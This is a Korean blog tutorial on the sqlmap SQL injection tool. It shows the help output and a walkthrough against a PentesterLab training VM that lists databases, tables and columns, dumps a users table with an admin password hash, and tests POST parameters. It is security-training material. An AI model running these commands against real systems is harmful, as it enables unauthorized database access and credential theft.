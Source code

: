 ```yaml
---
title: "SQLMap 사용법"
tags: [database, sqlmap]
author: eli_ez3r
key: 20191025
modify_date: 2019-10-25
article_header:
  type: cover
  image:
    src:
---
```


## 0x00. 개요

 **[sqlmap]( http://sqlmap.org/ )(automatic SQL injection and database takeover tool)**은 공개 모의침투 도구로 SQL구문삽입(SQL Injection) 취약점을 탐지/진단하고 데이터베이스에 직간접적으로 접근할 수 있는 취약점 분석 도구이다. 

SQL 구문삽입 공격은 DB 구조 파악이 가장 힘든 작업인데, 수작업으로 진행하기에는 매우 많은 시간이 걸린다. `sqlmap`은 DB 구조파악, 테이블 내용 유출 등을 자동화해주기 떄문에 웹취약점에 대한 수동분석 과정에서 상당히 많은 시간을 절약할 수 있게 도와주는 매우 훌륭한 프로그램이다. 

-----



## 0x01. 설치방법

Linux 시스템에서 다음과 같이 간단하게 설치할 수 있다.

```
apt-get install sqlmap -y
```

-----



## 0x02. 사용법

### (1) 도움말

다음 명령어를 통해서 `sqlmap`에 대한 도움말을 볼 수 있다.(보다 자세한 도움말을 보려면 `sqlmap -hh`)

```
sqlmap -h
```

```
root@ubuntu:~# sqlmap -h
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH    SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables. Moreover you can run your own SQL statements

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'
```

-----



## 0x03. 실습

sqlmap 실습을 위해서 [PentesterLab의 From SQL Injection to Shell 훈련장]( https://pentesterlab.com/exercises/from_sqli_to_shell/course )을 대상으로 진행한다.

[경고]실제 서버를 공격하여 생기는 법적 책임은 공격자 본인에게 있음을 경고합니다.
.{:.warning} 

 ![Image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025114201321.png){:.border.rounded} 

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025114516313.png){:.border.rounded}



### (1) GET 방식 입력 값 점검

다음 명령어를 이용하여 GET방식의 입력값 점검을 할 수 있다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1"
```

 ![img](http://eliez3r.synology.me/assets/img/study/db/sqlmap/SNAGHTML38e12cd3.PNG){:.border.rounded}  

OS정보와 Web Application정보, DBMS정보등을 알아오는 것을 알 수 있다.



사전에 DBMS정보를 알고 있는 경우는 다음 명령어를 사용하면 된다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbms=mysql
```



#### 데이터베이스 목록 조회

다음 명령어를 통해 데이터베이스의 목록을 조회할 수 있다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbs
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122018616.png){:.border.rounded} 



#### 테이블 목록 조회

데이터베이스의 이름을 알아내었으니 해당 데이터베이스의 테이블 목록을 조회해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog --tables
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122242193.png){:.border.rounded} 

해당 데이터베이스의 테이블들을 조회한 모습을 볼수 있다.



#### 컬럼 목록 조회

이제 해당 테이블의 컬럼 목록을 조회해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --columns
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122542041.png){:.border.rounded} 



#### 테이블 내용 덤프

users테이블의 모든 내용들을 덤프해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --dump
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122738312.png){:.border.rounded} 

user는 `admin` 계정이 존재하고 패스워드는 hash값으로 되어있지만, 해당 해쉬값이 P4ssw0rd 임을 알려준다.

-----



### (2) POST 방식 입력 값 점검

POST방식일 경우 `--data` 옵션을 이용하면된다.

```
sqlmap -u "http://192.168.23.131/admin/index.php" --data "user=USER&password=PASS"
```

-----

